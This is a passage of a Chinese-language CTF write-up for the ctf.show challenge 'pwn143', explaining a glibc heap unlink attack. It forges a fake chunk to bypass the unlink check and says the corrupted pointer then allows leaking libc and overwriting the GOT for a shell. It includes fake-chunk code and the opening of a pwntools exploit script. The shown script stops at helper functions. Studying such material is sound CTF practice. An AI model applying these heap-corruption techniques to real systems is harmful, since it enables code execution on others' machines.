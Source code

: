 FD->bk=FD+12=P

BK->fd=BK+8=P

就绕过了检测，执行完unlink后，FD->bk=BK,BK->fd=FD,最后就是P=P-12，P指针指向了比自己低12处。
我们要做的是伪造一个chunk，
![[Pasted image 20250323165202.png]]
```python
fakechunk = p64(0) + p64(0x41) + p64(fd) + p64(bk)
fakechunk += b'\x00' * 0x20 + p64(0x40) + p64(0x90)
```
这里的fakechunk中，0x41是当前将会被unlink的伪造出来的chunk的size，后面的0x40则是presize，用于说明前一个chunk是空闲的，0x90是当前chunk的大小
![[Pasted image 20250323165215.png]]
![[Pasted image 20250323165319.png]]
可以看到free后chunk被合并为一个0xd1大小的chunk,同时看list这边chunk的指针已经被修改，之后再edit该chunk就能泄漏libc基址并修改got表来获取shell。
![[Pasted image 20250323165417.png]]
exp:
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
ip, port = 'pwn.challenge.ctf.show:28149'.split(':')
elf_path = './pwn143'
libc_path = './libc-2.23.so'
local = True
debug = False
debug_word = '''
	b add
	b edit
	b show
	b delete
'''
if local:
	p = process(elf_path)
	if debug:
		gdb.attach(p, debug_word)
else:
	p = remote(ip, int(port))

def choose(choice):
	p.sendlineafter(b'choice:', str(choice))

def create_heap(size, content):
	choose(2)
	p.sendlineafter(b'length:', str(size))
	p.sendafter(b'name:', content)

def edit_heap(idx, size, content):
	choose(3)
	p.sendlineafter(b'index:', str(idx))
	p.sendlineafter(b'name:', str(size))
	p.sendafter(b'name:', content)

def show_heap():
	choose(1)

def delete_heap(idx):
	choose(4)
	p.sendlineafter(b'index:', str(idx))

def exit():
	choose(5)

```